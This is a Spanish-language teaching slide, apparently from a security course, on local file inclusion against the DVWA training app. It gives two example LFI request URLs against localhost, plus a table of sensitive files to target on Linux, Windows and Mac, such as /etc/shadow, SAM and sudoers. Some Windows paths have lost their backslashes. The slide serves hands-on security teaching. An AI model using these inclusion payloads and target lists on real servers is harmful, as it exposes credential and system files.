

# Vulnerabilidades LFI
Acceso a directorios del sistema operativo.
http://localhost/dvwa/vulnerabilities/fi/?page=C:\xampp\apache\logs\access.log
http://localhost/dvwa/vulnerabilities/fi/?page=C:\windows\system32\drivers\etc\hosts

| Linux | Windows | Mac |
| --- | --- | --- |
| /etc/issue /proc/version /etc/profile /etc/passwd /etc/shadow /root/.bash\_history /var/log/dmessage /var/mail/root /var/spool/cron/crontabs/root /etc/hosts /var/log/apache2/access.log | %SYSTEMROOT%repairsystem %SYSTEMROOT%repairSAM %SYSTEMROOT%repairSAM %WINDIR%win.ini %SYSTEMDRIVE%boot.ini %WINDIR%Panthersysprep.inf %WINDIR%system32configAppEvent.Evt | /etc/fstab /etc/master.passwd /etc/resolv.conf /etc/sudoers /etc/sysctl.conf |